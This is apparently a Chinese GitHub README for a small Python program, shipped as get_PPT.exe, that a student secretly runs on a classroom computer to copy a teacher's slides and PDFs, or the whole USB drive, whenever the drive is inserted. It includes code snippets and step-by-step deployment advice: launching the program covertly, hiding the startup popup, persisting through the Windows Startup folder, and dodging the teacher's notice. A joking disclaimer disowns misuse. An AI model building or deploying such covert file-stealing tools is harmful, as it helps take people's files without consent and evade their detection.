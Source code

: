 # 免责声明:(开发者甩锅协议)

* 本项目仅仅可以学习研究，请自觉遵守道德底线和相关法律法规。
* 如果有人把自己玩进去了，那是它坏，与我无关。
* 如果出现被请去喝茶等严重后果，概不负责。
* 知识没有好坏，但运用知识的人有好坏。
* 如有需要，联系"骑马拿剑的小机务"：307191019 (WeChat or QQ)

## 有问题可以提出issue与我🤺

---

* 一般情况:

        在目标人物到达目标电脑之前，你飞快地在目标电脑上启动打包好的exe程序，并且关闭弹窗提示，然后飞快的回到你的座位上，好好上课，静静的等待下课。
        待目标人物走后，你大可慢悠悠的上去拿走你要的东西哦。

* 如果你的目标人物有每次使用有重启的习惯，那么你需要如下步骤

        启动系统运行路径后，在该路径下创建exe程序的快捷方式。

---

## 好了，哑谜结束

总有些老师不给他上课用的屁屁踢，导致我无法安抚我躁动的想要学习的心。于是出此下策，背着老师拿走他的可能是课件的东西。

## 以下为简要说明

* 弹窗提示：程序运行后会有一个已启动的小弹窗，如果是你手动启动的程序，那么你将其关闭即可。如果为开机自启，这可能会引起老师怀疑，如果你觉得不妥，可以在代码中将此段注释掉。

        #程序启动提示
        root = tkinter.Tk()
        root.minsize(300,300)
        root.title("已启动")
        root.mainloop()

* 相关路径：假设教室的多媒体设备有两个盘C和D，那么老师U盘插入后为E盘。file_path代表老师的U盘。save_path默认为教室多媒体设备的D盘(一般教室的多媒体设备D盘每次重启后不会恢复初始状态)，复制后的课件会保存在D盘根目录下的 knowledge 文件夹。
  * 如果你有其他情况，请自行更改相关路径。

        # 要复制的目录，老师的U盘
        file_path = r'E:/'
        # 指定保存目录，我的U盘
        save_path = r'D:/knowledge/'

* format_name为想要的文件格式，一般老师课件的格式就是ppt，pptx或pdf，如果你有特殊需求，在代码中额外添加即可。

        # 指定文件格式
        format_name = ['.ppt','pptx','pdf']

---

* 如果你的老师每次上课前有重启电脑的好习惯，那么你需要一点额外的步骤。

        启动系统启动路径，在该路径下创建exe程序的快捷方式。

  * 系统启动路径:

        一般为: C:\Users\系统用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

        也可:Win+R启动运行窗口，输入 shell:startup 后确定，弹出系统运行路径。

* 此步骤仅针对重启后C盘不会重置的设备，如果重启后C盘会被重置为初始状态，那么此步骤无用。也没有其他好办法，你只能和老师斗智斗勇。

  * 一般这种设备的 启动路径下都有一个 clear desk.bat 的脚本，我将其中代码列入 clear desk.txt 中，将txt格式修改为bat格式后，可以运行重置C盘的操作。
  * 告诫：不要在自己的实体机上运行。

---

* 妙啊：这个两次插入的判断，我自己都觉得妙！

  * 看你具体需求，如果你想等老师稳定上课后再复制文件，那么将第一次插入后的暂停时间延长，至你想要的时间。

        if __name__ == '__main__':
            while True:
                # 判断老师U盘是否插入，
                if os. path.exists(file_path):
            
                    sleep(10)#如果插入，暂停10秒再判断一次，防止老师U盘没插牢
                    if os. path.exists(file_path):
                        # 两次判断插入后，开始复制指定格式文件
                        for i in format_name:
                            copy_file(i)
                        break   # 复制完后终止程序

                else:
                    sleep(10)    # 未插入U盘，一直运行，每10秒检测一次

  * 只运行代码中此段，应该是会复制U盘中的所有文件。

        # 不管不顾，运行此段，直接复制所有文件
        while (True): 
        if os. path.exists(file_path):
                shutil.copytree(file_path, os.path.join(save_path, datetime.now().strftime("%Y%m%d %H%M%S")))
                break
        else:
                time.sleep(10)

---

### 写在最后

* 终究还是一时兴起做的小玩意儿，没多么严谨，dist文件夹下的 get_PPT.exe 是已经打包好的程序。其他乱七八糟的文件懒得删了，不用管。
* 只因老师不给我屁屁踢。课前点开了程序，老师插入U盘后，打不开文件，我的老师迟疑了一下，然后就调出了任务管理器，说实话，那一瞬间我有点慌，得亏我这个占用极低，很不起眼，然后电脑就被老师重启了。 我老师反应是真的快，如果重启电脑的手再快一点，我的屁屁踢就拿不到了。
* 哎，建议对理工科的老师还是慎用，……
